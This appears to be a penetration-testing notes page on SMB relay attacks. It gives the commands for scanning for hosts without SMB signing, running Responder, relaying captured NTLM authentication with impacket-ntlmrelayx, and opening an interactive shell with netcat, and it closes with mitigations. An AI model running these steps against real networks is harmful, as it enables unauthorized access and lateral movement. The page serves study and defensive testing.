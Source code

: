 # SMB Relay

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Requirements:

* SMB signing **must be disabled** or **not enforced** on the target
* Relay user credentials must be admin on machine for any real value.



#### Methodology:

* Identify Hosts without SMB signing
* Change `Responder` configuration before run it.
* Run `Responder` tool on the right network interface
* Set up our SMB relay



## Identify Hosts without SMB signing

```bash
nmap --script=smb2-security-mode.nse -p445 IP/24
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Change Responder conf

The settings SMB and HTTP must be off. This because we have to relay the hashes and not capture them. This port will be use by SMB relay.

```bash
sudo nano /etc/responder/Responder.conf
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Run Responder tool

```bash
sudo responder -I NETWORK_INTERFACE -dw -v
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Set up SMB relay

To set up SMB relay we will using `impacket-ntlmrelayx` tool.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

{% hint style="info" %}
The `targets.txt` file contains all computers identify in the step 1
{% endhint %}

{% code title="targets.txt" lineNumbers="true" %}
```
192.168.X.X
192.168.X.X
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### New connection auto-shell

We can set the `ntlmrelayx` to enstablish a shell when the relay can enters into a pc.

```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```

Check the port in the output where the connection has been established,

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Use netcat to establish the connection.

```bash
nc 127.0.0.1 PORT
```



## Mitigation strategies:

* **Enable SMB Signing on all devices**
  * Pro: Completely stops the attack
  * Con: Con cause performance issues with file copies
* **Disable NTLM authentication on network**
  * Pro: Completely stops the attack&#x20;
  * Con: If kerberos stops working, Windows defaults back to NTLM
* **Account tiering**
  * Pro: Limits domain admins to specific tasks
  * Con: Enforcing the policy may be difficult
* **Local admin restrinction**
  * Pro: Can prevent a lot of lateral movement
  * Con: Potential increase in the amount of service desk tickets
